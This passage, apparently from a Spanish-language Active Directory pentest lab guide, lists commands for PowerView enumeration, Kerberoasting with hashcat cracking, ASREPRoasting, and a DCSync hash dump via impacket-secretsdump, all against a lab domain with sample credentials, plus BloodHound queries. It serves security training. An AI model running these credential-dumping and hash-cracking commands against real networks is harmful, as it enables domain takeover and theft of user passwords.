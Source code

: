 #### 2.3 PowerView (desde Windows)
```powershell
# Importar PowerView
Import-Module .\PowerView.ps1

# Enumeración básica
Get-Domain
Get-DomainController
Get-DomainUser
Get-DomainGroup
Get-DomainComputer
```

### Fase 3: Ataques Específicos

#### 3.1 Kerberoasting
```bash
# Desde Kali
impacket-GetUserSPNs LAB.LOCAL/john.doe:Welcome123! \
  -dc-ip 192.168.100.10 -request

# Crackear hashes
hashcat -m 13100 kerberos_hashes.txt /opt/wordlists/rockyou.txt
```

#### 3.2 ASREPRoasting
```bash
# Buscar usuarios sin Kerberos pre-auth
impacket-GetNPUsers LAB.LOCAL/ -dc-ip 192.168.100.10 -request

# Con lista de usuarios
impacket-GetNPUsers LAB.LOCAL/john.doe:Welcome123! \
  -dc-ip 192.168.100.10 -request
```

#### 3.3 DCSync (si tienes privilegios)
```bash
# Volcar hashes de dominio
impacket-secretsdump LAB.LOCAL/Administrator:P@ssw0rd123!@192.168.100.10
```

## 📊 Análisis con BloodHound

### Consultas Útiles
1. **Find Shortest Paths to Domain Admins**
2. **Find Principals with DCSync Rights**
3. **Find Computers with Unconstrained Delegation**
4. **Find Users with Most Privileges**
5. **Shortest Paths from Kerberoastable Users**

### Ataques Comunes a Identificar
- **Kerberoasting**: Usuarios con SPNs
- **ASREPRoasting**: Usuarios sin pre-auth
- **Unconstrained Delegation**: Computadoras peligrosas
- **ACL Abuse**: Permisos heredados incorrectos
